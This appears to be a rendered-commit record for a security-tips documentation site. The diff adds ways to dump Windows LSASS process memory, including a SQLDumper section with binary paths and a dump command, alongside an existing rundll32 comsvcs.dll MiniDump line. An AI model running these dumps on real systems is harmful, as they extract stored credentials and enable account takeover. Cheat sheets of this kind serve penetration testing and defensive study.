

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 2810 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add other methods to dump lsass

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -128,10 +128,12 @@ $ w32tm /query /status
 
 There is various methods to dump the `lsass` process memory:
 
-- Mimikatz
-- [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
 - TaskManager
 - Rundll32 & comsvcs.dll
+- [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
+- [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)
+- [SQLDumper](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Sqldumper/)
+- Mimikatz
 - [lsassy](https://github.com/Hackndo/lsassy)
 - [Silent Process Exit mechanism](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
 
@@ -151,6 +153,20 @@ tasklist /fi "imagename eq lsass.exe"
 rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID> lsass.dmp full
 ```
 
+
+#### SQLDumper
+
+You need to get the PID of `lsass` before dumping it. The tool can be found in
+one of the following path:
+
+```
+C:\Program Files\Microsoft SQL Server\90\Shared\SQLDumper.exe
+C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesX86\Microsoft Analysis\AS OLEDB\140\SQLDumper.exe
+```
+
+```bash
+sqldumper.exe <PID> 0 0x01100:40
+```
 
 ### SAM and SYSTEM backup
 ```bash
````
